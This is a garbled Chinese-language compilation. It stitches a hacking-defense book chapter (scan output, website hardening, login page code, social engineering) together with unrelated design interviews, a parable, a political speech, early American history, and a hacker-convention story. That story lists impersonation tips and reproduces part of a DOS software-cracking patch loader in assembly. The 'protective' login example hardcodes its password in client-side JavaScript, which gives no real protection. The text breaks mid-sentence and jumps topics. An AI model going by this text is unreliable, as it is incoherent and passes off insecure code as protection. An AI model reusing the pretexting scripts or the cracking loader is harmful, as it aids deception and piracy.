206.0.126.23       206.0.126.55       206.0.126.89
206.0.126.25       206.0.126.56       206.0.126.92
206.0.126.27       206.0.126.61       206.0.126.93
206.0.126.28       206.0.126.62       206.0.126.94
206.0.126.29       206.0.126.63       206.0.126.95
206.0.126.30       206.0.126.64       206.0.126.96
206.0.126.33       206.0.126.65       206.0.126.97
206.0.126.35       206.0.126.66       206.0.126.110
```

```
206.0.126.111|206.0.126.136|206.0.126.203
206.0.126.112|206.0.126.137|206.0.126.206
206.0.126.113|206.0.126.141|206.0.126.207
206.0.126.114|206.0.126.142|206.0.126.221
206.0.126.115|206.0.126.143|206.0.126.222
206.0.126.116|206.0.126.153|206.0.126.223
206.0.126.117|206.0.126.154|206.0.126.224
206.0.126.118|206.0.126.155|206.0.126.225
206.0.126.119|206.0.126.156|206.0.126.231
206.0.126.120|206.0.126.157|206.0.126.236
206.0.126.121|206.0.126.158|206.0.126.237
206.0.126.122|206.0.126.159|206.0.126.238
206.0.126.123|206.0.126.168|206.0.126.239
206.0.126.124|206.0.126.172|206.0.126.240
206.0.126.125|206.0.126.173|206.0.126.241
206.0.126.126|206.0.126.175|206.0.126.243
206.0.126.127|206.0.126.177|206.0.126.245
206.0.126.128|206.0.126.179|206.0.126.247
206.0.126.129|206.0.126.183|206.0.126.249
206.0.126.130|206.0.126.186|206.0.126.250
206.0.126.131|206.0.126.200|206.0.126.251
206.0.126.133|206.0.126.201|
```

我们初始扫描的输出显示略多于 104 个活跃地址。为了完善对几个发现地址的假设，我们将再次运行扫描，超时设置为 2 秒。这应该足以发现更多开放端口：

```
206.0.126.1:23|206.0.126.28|206.0.126.54
206.0.126.8:7, 11, 15, 19, 21, 23, 25, 80, 110, 111|206.0.126.29|206.0.126.59
206.0.126.10:21, 23, 80|206.0.126.30:21, 80|206.0.126.61
206.0.126.11:25, 110|206.0.126.31|206.0.126.62
206.0.126.22|206.0.126.37|206.0.126.63
206.0.126.26|206.0.126.39|206.0.126.64
206.0.126.27|206.0.126.44|206.0.126.65
||206.0.126.49|206.0.126.66
||206.0.126.53|206.0.126.67
```

```
206.0.126.69
206.0.126.77
206.0.126.82
206.0.126.87
206.0.126.89:7, 11, 21, 23, 25, 80, 110, 111
206.0.126.92
206.0.126.93
206.0.126.94
206.0.126.95
206.0.126.96
206.0.126.98
206.0.126.110
206.0.126.111
206.0.126.112
206.0.126.113
206.0.126.114
206.0.126.116
206.0.126.117
206.0.126.118
206.0.126.119
206.0.126.120
206.0.126.122
206.0.126.123
```

```
206.0.126.124
206.0.126.125
206.0.126.126
206.0.126.127
206.0.126.128
206.0.126.129
206.0.126.130
206.0.126.131
206.0.126.133
206.0.126.136
206.0.126.137
206.0.126.141
206.0.126.142
206.0.126.144
206.0.126.153
206.0.126.154
206.0.126.155
206.0.126.156
206.0.126.157
206.0.126.158
206.0.126.159
206.0.126.169
206.0.126.172
206.0.126.173
```

```
206.0.126.176
206.0.126177
206.0.126.201
206.0.126.203
206.0.126.206
206.0.126.207
206.0.126.221
206.0.126.222
206.0.126.223
206.0.126.224
206.0.126.225
206.0.126.231
206.0.126.236
206.0.126.237
206.0.126.238
206.0.126.239
206.0.126.240
206.0.126.241
206.0.126.243
206.0.126.247
206.0.126.249
206.0.126.250
```

仔细查看第二次扫描的输出，并将其与前一次进行比较。需要重点考量的关键地址及其活跃端口包括：

- 206.0.126.1:23, 161, 162
- 206.0.126.8:7, 11, 15, 19, 21, 23, 25, 80, 110, 111
- 206.0.126.10:21, 23, 80
- 206.0.126.11:25, 110
- 206.0.126.12:21
- 206.0.126.30:21, 80
- 206.0.126.89:7, 11, 21, 23, 25, 80, 110, 111

其余地址可能是动态分配的虚拟地址，可能通过防火墙或路由器中的网络地址转换（NAT）实现。正如你无疑注意到的，第二次扫描中发现的地址略有不同。活跃端口的缺失以及地址差异，可能表明这些是内部用户在浏览互联网；尽管如此，它们仍应被扫描。

应对此类关键发现的最佳防御措施是禁用所有暴露于远程扫描的系统上未使用或不需要的服务。请务必查看前两章，了解有关从 Windows 和 *NIX 操作系统禁用服务的具体说明。作为替代方案，你应该实施良好的外围防火墙（本书后面讨论）或个人防火墙，或者至少使用端口阻止程序/监视器（第二章也有讨论）。

## 网站设计

按照设计，许多网站在其"页面"上泄露关键发现信息。诸如联系人姓名、电子邮件地址、电话分机号、网络基础设施图、网络 IP 地址范围，甚至社区名称等内容都通过互联网发布。例如，在一个案例中，SNMP 社区名称被公布，其中一个分支路由器包含读写访问权限。

正如 *《黑客攻击揭秘，第二版》* 中所述，这些信息可能导致成功的社会工程学、电子邮件和远程控制设置黑客攻击。举一个实际的例子，考虑一下，包含员工信息的公司联系页面可能成为探测目标，如图 3.9 所示。

考虑到这一点，一个良好的设计经验法则是避免在网页上包含联系人姓名和电子邮件地址。取而代之的是，你可以使用网站留言簿/反馈脚本或通用邮件账户。为了演示，我们将通过隐藏关键发现信息来修改图 3.9 中所示的页面（见图 3.10）。如你所见，这些改变可能完全阻止攻击者发动定向黑客攻击。然而，在这种情况下，我们可能仍然容易受到其他明显骚扰的影响，包括邮件轰炸和攻击。因此，为了也应对这些潜在可能性，我们将把目标联系页面再修改一步，消除所有直接交换，并包含一个提交表单（见图 3.11）。

事实上，安全的网站设计最佳方法是彻底检查每个页面，修改任何你认为可能助长黑客攻击的内容。本质上，通过包含内部网络图、IP 结构和社区名称等内容，你是在向黑客们铺设欢迎地毯。


 

图 3.9 泄露过多信息可能导致黑客攻击。



图 3.10 在网页上包含不太具体的联系信息要安全得多。



### 图 3.11 消除直接交换可能是最安全的设计。

即使您不需要担心泄露此类信息，实施一个简单的入口障碍仍然是一个好主意。前端网页代码（如登录页面、ASP/VB 脚本和密码保护的通用网关接口（CGI）可执行文件）已被证明可以阻止许多投机取巧的攻击者。以下是由著名程序员 John Fenton 用 Java 编写的一个简单的前端登录适配示例，可以很容易地实现：

```
<HTML>
<HEAD>
<H1><CENTER>Enter Password</H1></CENTER> !--You can change or delete
    heading if you choose
<SCRIPT LANGUAGE=JAVASCRIPT>

    function verify(){
    var password ="12345"; !--Edit the password here
    var protected_page ="mypage.html"; !--edit page to jump to if
password is correct
    var pd=document.password.pin.value !--you can change 'pin' as long
as you change the name of the password box below
    if (pd!=password) //checks password
```

```
{
    alert("Invalid password");
}

else

    {
    alert("Password accepted");
    window.location.href=protected_page; !--jumps to protected page
listed above
    } }
```

```
</SCRIPT>
<TITLE>
//Edit this
</TITLE>
</HEAD>
<BODY bgcolor=black text=red> !--change the color scheme if you
please
    <BR>
    <BR>
    <CENTER>
    <FORM name=password> !--you can change form name but make sure to
change it above
    <INPUT type=password name=pin> !--you can change 'pin' to something
else but change it above
    <BR>
    <BR>
    <INPUT type=button value=Submit OnClick="verify()"> !--you can
change the function name but change it above
    </CENTER>
</BODY>
</HTML>
```

另一个例子是 TigerPass，它可以用作内部登录网关，并且可以轻松转换为 CGI 前端。该程序由 Visual Basic 程序员 Philip Beam 开发，如图 3.12 及后续代码所示，程序 cylcle 自动查询一个小型数据库 *login.mdb*，用于访问计费和交叉引用。

### 对付死皮赖脸

另一个例子是 TigerPass，它可以用作内部登录网关，并且可以轻松转换为 CGI 前端。该程序由 Visual Basic 程序员 Philip Beam 开发，如图 3.12 及后续代码所示，程序自动查询一个小型数据库 *login.mdb*，用于访问计费和交叉引用。

## TigerPass

```
Private Sub Command1_Click()
    Login.Data1.Recordset.FindFirst "memID = '" & Login.Text1.Text & "'"
    If Login.Pass.Caption = Login.Text2.Text Then


 ```
</TD>
</TR>
</TABLE></center>
</FORM>

</body></html>
```

### Passchange1.asp

```
data:application/octet-stream;base64
```

### Passchange2.asp

```
<%username = request.cookies("passes")%>
<html>
<head>
<title>Change your Password</title>
<STYLE>
```

```
body { background: #000000; font-size: 20pt; color: #FEFCE0;
  font-family: verdana, arial}
td { font-size: 9pt; color: #FEFCE0; font-family: verdana, arial}
A:link { text-decoration: none; color: #FFFFFF;}
A:visited { text-decoration: none; color: #FEFCE0;}
A:active { text-decoration: none; color: #FFFFFF;}
A:hover { text-decoration: none; color:#CCFFFF;}
```

```
</STYLE>
<body>
<BR>
<center><h1>Sorry! Some of the details you have entered was
  incorrect.</h1></center>
<BR>
<FORM ACTION="passchange1.asp" METHOD="post">
       <center> <TABLE BORDER=0>
              <TR>
                     <TD ALIGN="right">Login:</TD>
                     <TD><INPUT TYPE="text" Value=<%=username%> size="10"
                           NAME="login"></INPUT></TD>
              </TR>
              <TR>
                     <TD ALIGN="right">Old Password:</TD>
                     <TD><INPUT TYPE="password" size="10" NAME=
                           "oldpassword"></INPUT></TD>
              </TR>
              <TR>
                     <TD ALIGN="right">New Password:</TD>
                     <TD><INPUT TYPE="password" size="10" NAME=
                           "newpassword1"></INPUT></TD>
              </TR>
              <TR>
                     <TD ALIGN="right">Confirm New Password:</TD>
                     <TD><INPUT TYPE="password" size="10" NAME=
                           "newpassword2"></INPUT></TD>
              </TR>
              <TR>
                     <TD ALIGN="right"></TD>
                     <TD><INPUT TYPE="submit" VALUE="Login"></INPUT>
                           <INPUT TYPE="reset" VALUE="Reset"></INPUT>
                     </TD>
              </TR>
       </TABLE></center>
</FORM>

</body></html>
```

### Protected.asp

```
<%username = request.cookies("passes")%>
<%friendlyname = request.cookies("passes2")%>
<%If request.cookies("passes") = "" then response.redirect
	("login.asp")%>
<html><head><title>Please Choose your destination</title>
<STYLE>
<!--
	H1 { font-size: 20pt; color: #FEFCE0; font-family: verdana, arial}
	body { background: #000000; font-size: 15pt; color: #FEFCE0;
		font-family: verdana, arial}
	td { font-size: 9pt; color: #FEFCE0; font-family: verdana, arial}
	A:link { text-decoration: none; color: #FFFFFF;}
您在设计中遇到的主要设计、制造或用户体验挑战，以及您如何克服这些挑战？这是一次从机器人技术向消费产品的**转型**，需要在美学、制造和用户界面方面进行大量的学习。最大的挑战是设计一款看起来高端但能够大规模生产的产品。我们必须在美学愿景与机械约束、供应商能力和成本目标之间取得平衡。实现材料（织物、金属、木材）的恰当搭配，同时确保耐用性和易于组装，这需要我们与工业设计团队和机械工程团队进行大量的原型制作和迭代。

在控制面板上*隐藏宠物*以增强用户交互，同时避免过度复杂化设计。我们希望交互直观，同时也能传达出精致和愉悦的感觉。这需要仔细考虑按钮布局、触觉反馈以及视觉提示（如光环指示灯）来引导用户。

您如何在工作中平衡用户需求与业务需求？

我将其视为一个维恩图，目标是最大化用户渴望度、技术可行性和商业可行性之间的重叠。在实践中，这意味着：
- **为用户发声**：积极寻求用户反馈，进行可用性研究，并将用户洞察带入早期产品定义。
- **理解业务约束**：了解市场定位、成本目标和上市时间压力。
- **寻找创造性解决方案**：通常，最好的产品来自于约束。例如，在 Forme Bot 上，织物包裹不仅仅是一个美学选择；它是一个战略性选择，以区别于竞争对手并证明高端价位的合理性，同时也满足了声学需求和触觉需求。

当这些领域发生冲突时，我会促进讨论，确保权衡是*有意识的*，而不是默认的。关键是透明沟通和愿意迭代，直到达到正确的平衡。

紫檀

Major design, production, or user experience challenges you faced, and how you overcame them? This was a Pivot from robotics to consumer products, requiring significant learning curves in aesthetics, manufacturing, and user interface. The biggest challenge was designing a product that looked premium but was manufacturable at scale. We had to balance the aesthetic vision with mechanical constraints, supplier capabilities, and cost targets. Achieving the right blend of materials (fabric, metal, wood) while overwinding durability and ease of assembly required extensive prototyping and iteration with our industrial design and mechanical engineering teams.

Hidden显示 pets on the control panel to enhance user interaction without overcomplicating the design. We wanted the interaction to be intuitive but also convey a sense of sophistication and delight. This involved careful consideration of button placement, tactile feedback, and visual cues (like the halo light ring) to guide the user.

How do you balance user needs with business requirements in your work? 

I view it as a Venn diagram where the goal is to maximize the overlap between user desirability, technical feasibility, and business viability. In practice, this means:
- Advocating for the user: actively seeking user feedback, conducting usability studies, and bringing user insights into early-stage product definition.
- Understanding business constraints: being aware of market positioning, cost targets, and time-to-market pressures.
- Finding creative solutions: often, the best products come from constraints. For example, on Forme Bot, the fabric wrap wasn't just an aesthetic choice; it was a strategic one to differentiate from competitors and justify a premium price point, while also solving acoustic and tactile user needs.

When these areas conflict, I facilitate discussions to ensure trade-offs are made consciously, not by default. The key is transparent communication and a willingness to iterate until the balance is right.

---

紫檀

## 万用代换与调达

设计不仅仅是一个创造的过程。实现一件事的成本低落，才是一个企业。设计需要与工程师继续合作，才能创造美与实际卖的通的产品。

### My thoughts on the process

The process is what matters. You can have the best idea in the world, but without a process to bring it to life, it's just an idea. The 设计 process is a journey of discovery, iteration, and refinement. It's about understanding the user, the market, and the technology, and then finding the sweet spot where they all meet.

One of the most important aspects of the design process is the ability to iterate. The first idea is never the best idea. It's through iteration that we refine and improve our designs. Each iteration brings new insights and new opportunities for improvement.

Another critical aspect is collaboration. Design is not a solitary activity. It requires input from many different stakeholders, including users, engineers, marketers, and business leaders. The best designs come from teams that can work together effectively, each bringing their own expertise and perspective to the table.

Finally, the design process must be flexible. No two projects are the same, and what works for one project may not work for another. The ability to adapt the process to the specific needs of each project is essential for success.

In conclusion, the design process is not just about creating beautiful objects. It's about solving problems, meeting user needs, and creating value for the business. It's a complex and challenging journey, but one that is essential for creating successful products.

An elderly carpenter was ready to retire. He told his employer contractor of his plans to leave the house-building business to live a more leisurely life with his wife and enjoy his extended family. He would miss the paycheck each week, but he wanted to retire. They could get by. The contractor was sorry to see his good worker go and asked if the carpenter could build just one more house as a personal favor. The carpenter said yes, but over time it was easy to see that his heart was not in his work. He resorted to shoddy workmanship and used inferior materials. It was an unfortunate way to end a dedicated career. When the carpenter finished his work, the employer came to inspect the house. Then he handed the front-door key to the carpenter and said, "This is your new home. My gift to you."

This story illustrates that our attitude is a choice. The carpenter chose to do shoddy work because his heart was not in it. He could have chosen to do his best work, even though it was his last project. The choice we make about our work affects not only the quality of our work but also our own satisfaction and happiness. When we approach our work with a positive attitude and a commitment to excellence, we not only produce better results but also experience greater fulfillment.

紫檀

---

## 12. 迭代与研究驱动设计

索尼计算机科学实验室高级研究员、著名作家茂木健一郎博士曾写道，要激发创意专业人士的最佳潜能，工作环境必须根据他们的需求量身定制。

"因为设计师的思维方式并非总是线性的，他们往往需要逃离办公室，去某个地方激发自己的思考，"他说。以下这轮采访就体现了这一理念。

**卡尔·维泰克，索尼 ID 架构师**

关于工程师与工业设计师的区别：

"工程师为人们使用而制造东西。工程师通过演绎找到将功能优化到极致的方法。

"工业设计师*为人们生活而制造东西*。设计师不仅要考虑功能，还要考虑用户的感受。"

关于伟大的设计：

"伟大的设计是任何人都可以毫无疑虑地使用的东西。它可以被直观理解。"

关于常见的设计错误：

"设计真正新颖的东西是最困难的事情。很难客观地看待新设计，而且在产品上市之前，你永远无法获得市场反馈。任何设计过程都需要大量的信任。如果你没有这种信任，设计就会完全如你所想；它会非常传统或过于前卫。这就是为什么设计过程中不应有任何延迟或含糊。否则，你将无法信任结果，也无法拥有任何独特品质的产品。"

你们团队的设计和开发流程是什么？

"从有机的角度来看，这个过程永远不会相同，但从技术上说，它遵循一条清晰的路径：策略、分析、整合和生产。但任何过程，如果耗时太长，就是失败的。必须没有含糊。含糊会拖慢你的速度，而缓慢的过程会扼杀你的直觉。

"过程应该是可适应的。当反馈太少时，有太多新功能领域将无法取得成功。许多新产品都在开拓新领域，这使得反馈机制难以完美运作。创新是确保过程有效且不过于僵化的必要条件。"

设计师最重要的素质：

"对社会和市场的复杂本质保持敏感，能够调整自己的品味和风格以适应不同的社会阶层和不同的市场。如果你的风格总是一成不变，那么你只是在创作艺术。如果你的风格能根据每种情况而变化，那么你就是一个好的设计师。"

您如何看待用户研究与设计之间的关系？

"我们进行了大量的实地工作和研究。我们派人到许多家庭中去，观察他们的生活方式，观察他们如何看电视。

店员、朋友的朋友、你的祖母——任何愿意让你看一眼的人。"最初，你必须让它对朋友和家人有效。这能建立你的信心，让你习惯提问。一两周后，你应该已经习惯了进行测试，可以招募陌生人了。"

关于何时停止研究：

"你做研究，直到不再感到惊讶，然后再多做一点以确保。当你开始看到非常一致的结果时，就停止。一旦停止，你需要根据发现来设定需求。如果你继续研究而不定义它们，那么你只会得到更多相同的信息。"

关于设计研究的理想角色：

"设计研究是灵感和信息的来源，帮助设计师做出更明智的决策。"

### 12.2. 如何了解你的用户

Todd Zaki Warfel 著有《原型设计：实践者指南》和《网页剖析》，无论你是
否有预算聘请研究团队，他都提供了一些了解用户的基本技巧。

#### 12.2.1. 研究的基本原则

进行研究时，有时很难知道从哪里开始。Warfel 提供了这些基本经验法则：

- 知道你需要知道什么。在制定研究计划或方案之前，先撰写研究问题。研究问题应与业务或设计问题挂钩，并应作为工作的指导。设计研究以回答问题。
- **提出开放式问题**。可以用"是"或"否"回答的问题不会产生特别丰富的信息，因为你不知道"是"或"否"背后的原因。开放式问题允许人们解释他们的理由；问"什么"和"如何"来找到"是"和"否"背后的答案。
- **不要引导证人**。不要问："你希望这个功能做 X 吗？"要问："你认为这个功能应该做什么？"或者"你遇到了什么问题？"
- **不要让用户设计**。他们是作为用户的专家；你是设计专家。用户会告诉你他们需要什么，然后你必须将这种需求解释为设计。
- **注意他们没有做什么**。通常，人们没有做什么或没有说什么，与他们做了什么同样具有启发性。

#### 12.2.2. 用户研究技术

根据 Warfel 的说法，对于大多数产品设计工作，你只需要熟悉少数研究技术。以下是这些技术，按大致成本从低到高、从快到慢排列：

- **访谈**。这是找出人们为什么做他们所做之事的最佳方式。它最适合行为研究，尽管人们倾向于预测和理想化他们会或不会做什么。
- **情境调查**。去用户所在的地方。观察他们在网上读到的东西，以及做梦。"他形容自己的朋友说："我想我是根据形状选择朋友的。"

```h```


 ## Figure 3.15 你被骗了。

针对最常见的入侵采取防护措施。所有家庭和企业网络用户都应根据自身职业或个人安全需求调整安全级别。许多浏览器还包含自定义安全优化功能，以满足这种程度的保护需求，如图3.17所示。例如，要在MS Internet Explorer中设置安全级别，请从"工具"菜单中选择"Internet选项"，然后点击"安全"选项卡。现在点击你要设置安全级别的区域。向上移动滑块可提高标准安全级别，向下移动则降低标准安全级别。要为选定区域自定义安全设置，请点击"自定义级别"按钮。（你的浏览器还可能允许配置"受信任"和"不受信任"的网站，以实现更高级的浏览控制。）

而且，遗憾的是，关于Cookie，最安全的做法是禁用所有Cookie，并对网络上遇到的Java代码建立严格限制。正规网站通常会为所谓的无Cookie浏览器（那些拒绝"从陌生人手中接糖"的浏览器）提供手动登录链接。此外，在会话期间配置严格的Java限制可以迫使那些坚持要求Java的合法网站得到个人确认。这只需几秒钟，而且你不必重新启动电脑。

**注意** 如需额外保护，请查看前面提到的TigerSurf 2.0，在附录A中有评测，并包含在此书附带的CD中。

### 社会工程学

在很大程度上，公众对黑客行为的认知仍然是：通过隐蔽的深夜远程渗透或暴力攻击进行。但事实已非如此。尽管多年来许多黑客方法并没有太大变化，但社会工程学已成为一种核心战略。社会工程学是一种诱导目标网络的合法用户透露关键发现信息（如登录名和/或密码）的方法。这一过程在许多广为人知的黑客攻击中扮演了重要角色。臭名昭著的黑客凯文·米特尼克曾表示，巧妙的社会工程学战术是许多成功渗透的背后推手，包括80年代备受关注的Sun Microsystems攻击事件（Sun Microsystems声称米特尼克据称窃取的源代码价值8000万美元）。《黑客攻击揭秘（第二版）》中描述的许多成功黑客攻击也依赖于毫不费力的社会工程学技巧。

毫无疑问，如今所有用户都应了解目前广泛使用的常见社会工程学策略，包括冒充新用户或技术人员。至少他们应该遵循一条经验法则：永远不要向任何人透露自己的密码，在任何情况下都不要，除非他们确定自己正在与可信来源合作。冒充新用户时，攻击者可能会拨打目标主要电话号码，要求转接到IS部门或技术支持组。联系到相关人员后，攻击者可能会宣布自己是临时工，被告知联系该部门获取临时用户名和密码。做一些额外的调查研究会使这一过程更容易实现。例如，攻击者可以事先了解营销部门负责人的姓名，然后在被转接到技术人员时说："你好，我叫汤姆·弗里德曼。我是莎伦·罗伯茨（营销部门主管）手下的新临时工，她让我打电话给你要临时工的用户名和密码。"

冒充技术人员时，攻击者可能会要求转接到销售部门的某个人，然后可能会声称IS总监比尔·汤普森（或任何人）要求他/她联系该部门的每个用户，以验证登录访问权限，因为要安装新服务器来替换旧服务器。还需要教会用户防范丢弃对黑客有价值的信息：联系人列表、组织结构图、手册、软盘、备份磁带、硬盘、各类敏感数据。所有磁性材料都应被擦除；纸质废物应被碎纸并在安全区域处理——在你们心中深思，有些时刻决定国家命运，正如决定个人命运一样确定无疑；而英国人民在这些关键时刻将要求的民族命运，正是那么多人已经回应的"我在这里，请差遣我"的那一种。在你们心中好好思考，从你们的良知中寻求这个问题的答案："你们作为一个伟大时代的民族，准备好了吗？你们作为伟大民族的人们，现在准备好了吗？"人类期待你们的答案。时代期待你们的答案。我们期待你们的答案。

让那些以友谊相连的人在这困难时期再次团结世界各民族；让各地怀有善意的人协助这项神圣任务。因为我坚信，在当前的危险中，重要的不是这个或任何其他国家的物理力量，而是即刻善意的道德力量；如果我们在这一方面积极努力，着眼于未来而非谈判桌来解决欧洲的困难，新的希望将降临到我们共同的事业中。让我们记住，文明在某种意义上始终依赖于，并将永远依赖于普通人的美德和信念；而九十年前，当新的希望信号降临受压迫者时，它依赖于的不是任何联盟，不是任何武力，而是英国人民朴素的正直。那么，这个以光辉的勇气和牺牲事迹为所有人树立了如此辉煌标准的民族，难道我们心中不再拥有那在过去从未让我们失望的精神吗？为了不再次让我们失望，让我们不是所有人都能同心同德，将一切信任寄托于上帝，并为全人类的福祉共同努力吗？

---

## 第十二章

### XYZ事件（1797–1799）

当我们回顾亚当斯政府时期，我们会遇到一系列事件，按照我们叙事的适当顺序，应该较为详细地加以叙述。但在像本书这样的作品中，篇幅必然有限，不可能也不应当超过简要概述当时的政治历史，并指出该时期较为重要的措施和辩论。这段历史充满了各种事件，这些事件无论单独还是集体，都对国家的命运产生了最重要的影响。——

1796年的选举使国家在外交关系问题上产生了分歧。联邦党人，作为与英国保持体面和平的朋友，对法国督政府的异常行为深恶痛绝，自然希望尽可能培养与前者的友谊。另一方面，共和党人仍然对法国怀有最炽热的感情，倾向于忽视她的一切过错，并赋予她一种她完全不具备的美德。此时，美国人民无疑是全球最富有美德和最开化的；然而他们在国会提出的几乎每一项重要措施上都意见分歧。-  -  -  -  -  - 


赞助商的“代号”在我的邀请函上显现了出来。他们用了隐形墨水！就在那一刻，我被准许入场了。

这次聚会的组织形式比较松散，就像一个博览会，不同类型的团体都搭起了展台。有些人带来了硬件，比如分线盒、飞线电话、窃听装置、盗版盒，以及各种颜色的彩虹盒。一群科学爱好者正在宣传他们揭露政府UFO秘密的目标。当我四处闲逛时，我无意间听到另一名黑客正在吹嘘一个阴谋，他要用自己设计的一些恶意COBOL代码，给他学校的大型主机搞破坏。还有另一个团体正在分发以下社会工程学技巧：

- *要专业。* 你不想让别人不信你这一套。你是在制造一种幻觉。你要显得可信。
- *要冷静。* 看起来要像是属于那里的。
- *了解你的目标。* 了解你的敌人。在他们做出反应之前，确切知道他们会如何反应。
- *不要试图欺骗更老练的骗子。* 试图骗过一个观察力敏锐或更聪明的人，结果会是灾难性的。
- *计划好你的脱逃路线。* 比如说有人起了疑心：不要撕破脸，直接走人。保住消息来源。
- *尽量做女性。* 有证据表明，女性在电话上更受信任。利用这一点。必要时找个女性帮忙。如果你本身就是女性就更好了（在我们这行可是稀罕物）。
- *水印。* 学会制作。它们对于邮件诈骗来说 invaluable。
- **名片和假名。** 在需要装专业的时候用。
- *利用那些不幸的和愚蠢的人。* 这里不需要多说了。
- *必要时团队作战。* 不要傲慢，不要过于自负。如果需要帮助，就去求助！

毫无疑问，这次聚会的技术高手们，心中怀着的恶意远不止一星半点。例如，有一位狂热分子正在分发如何撬开学校储物柜的信息。

简而言之，我身处一群令人惊叹的技术高手之中，他们男女老少皆有，年龄从15岁到42岁不等。有“大师”随时准备应对各种难题，从无政府主义和破解到黑客技术。我记得在一个角落里，一群人围在几个破解者周围，他们在演示各种技巧，包括一个古老的中国秘传个人补丁加载器源代码，在此 reproduced：

### # Loader.asm

```
LOCALS
.MODEL SMALL
```

```
.CODE
org 100h

;; Define some equates

DosInt          equ 21h           ;; The dos interrupt
VidInt          equ 10h           ;; The video interrupt
PatchIntNo      equ 10h           ;; The interrupt No to grab
Func2Use        equ 00h           ;; Use Get Dos Version

Begin:          jmp InstallMe     ;; Run the main program

;; All data used while EXECing the main program

OldSS           dw ?              ;; Holds our SS during EXEC
OldSP           dw ?              ;; Holds our SP during EXEC
ExecError       dw ?              ;; Hold error code returned by EXEC
ExecFilename    db ' ',0          ;; Name of file to exec
ExecTable label byte              ;; Data used by DOS exec function
  ExecEnv       dw ?
  ExecCmdLine   dd ?
  ExecFCB1      dd ?
  ExecFCB2      dd ?

;; All data used to make the patch

PatchData  label byte
  ScanStr    db 00,00            ;; String to search for
  PatchStr   db 00,00            ;; String to patch with
  POffset    dd 00000000h        ;; Offset from return address

;; All interrupt data

OldPatchInt    dd ?             ;; Address of old Int 10h
PatchAt        dd ?             ;; Address of place to patch
```

```
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
;;                                                                     ;;
;; AbsAddr - Converts a segment:offset to a 20-bit absolute address.  ;;
;;                                                                     ;;
;; on entry - DX:AX holds the address in segment:offset form          ;;
;; on exit  - DX:AX holds 20-bit absolute address                     ;;
;;                                                                     ;;
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;

AbsAddr        proc

               push BX

               rol DX,1          ;; Rotate segment left four bits
               rol DX,1          ;; to put high nibble in low four bits
               rol DX,1
               rol DX,1
               mov BX,DX         ;; Save rotated segment in BX
               and DX,0FH        ;; Clear high bits
               and BX,0FFF0H     ;; Clear low nibble
```

```
add AX,BX       ;; Add shifted segment and offset
adc DX,0        ;; Add carry

pop BX

ret
AbsAddr  endp
```

```
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
;;
;; NormAddr - Converts a 20-bit absolute address to a normal
;;            segment:offset
;;
;; on entry - DX:AX holds the 20-bit address
;; on exit  - DX:AX holds the segment:offset
;;
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
NormAddr        proc

        push BX

        mov BX,AX       ;; Low word in BX
        and AX,0FH      ;; New offset (low four bits) in AX
        and BX,0FFF0H   ;; Clear low nibble
        or  DX,BX       ;; OR with high nibble from DX
        ror DX,1        ;; Rotate right four times to put
        ror DX,1        ;; High nibble in upper four bits
        ror DX,1
        ror DX,1

        pop BX

        ret
NormAddr endp
```

```
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
;;
;; PatchInt - This is the workhorse! It will kick in whenever our
;;            interrupt function is used!
;;
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
